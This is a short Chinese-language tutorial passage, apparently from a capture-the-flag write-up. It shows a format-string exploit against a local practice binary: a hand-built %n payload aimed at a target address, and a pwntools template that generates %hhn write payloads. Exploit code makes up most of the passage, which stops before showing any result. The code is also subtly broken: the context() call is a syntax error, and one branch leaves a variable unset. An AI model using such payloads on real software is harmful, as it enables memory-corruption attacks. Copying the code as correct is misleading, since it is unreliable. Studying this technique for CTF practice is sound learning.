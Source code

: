 我们可以从 ida 中得到 b 的地址 **0x804C01C** ，则 payload 大致如下

~~~c
p32(0x0804C01C)+p32(0x0804C01D)+p32(0x0804C01E)+p32(0x0804C01F)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
~~~

可以通过如下模板计算：

~~~python
from pwn import *

context(arch='i386',os='linux',log_level)

p = process('./fmtstr')

def fmt(prev, word, index): 
	if prev < word: 
		result = word - prev 
		fmtstr = "%" + str(result) + "c" 
	elif prev == word: 
		result = 0 
	else: 
		result = 256 + word - prev 
		fmtstr = "%" + str(result) + "c" 
	
	fmtstr += "%" + str(index) + "$hhn" 
	return fmtstr.encode()

def fmt_str(offset, size, addr, target): 
	payload = b"" 
	
	for i in range(4): 
		if size == 4: 
			payload += p32(addr + i) 
		else: 
			payload += p64(addr + i) 
	
	prev = len(payload) 
	for i in range(4): 
		payload += fmt(prev, (target >> i * 8) & 0xff, offset + i) 
		prev = (target >> i * 8) & 0xff 
	
	return payload 
		
payload = fmt_str(6,4,0x0804C01C,0x12345678)

p.sendline(payload)
~~~

结果如下：
